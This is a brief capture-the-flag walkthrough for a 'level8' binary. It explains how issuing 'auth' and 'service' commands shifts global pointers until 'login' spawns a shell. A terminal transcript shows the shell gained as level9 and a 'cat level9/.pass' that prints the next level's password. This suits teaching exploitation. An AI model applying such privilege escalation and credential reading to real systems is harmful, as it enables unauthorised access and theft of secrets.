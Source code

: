 
If we decompile level8 with `objdump -d level8`, we see if we use a `auth` or `service` it will increment our pointer by 10.

There are two pointers which is global variables 
To access `system('/bin/sh')`, we need to check our memory on auth + (32 bytes) if memory is different from zero when we use our command `login` :

```bash
$ ./level8
(null), (null)
auth
0x804a008, (null)
service
0x804a008, 0x804a018
login
Password:
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ cd .. && cat level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
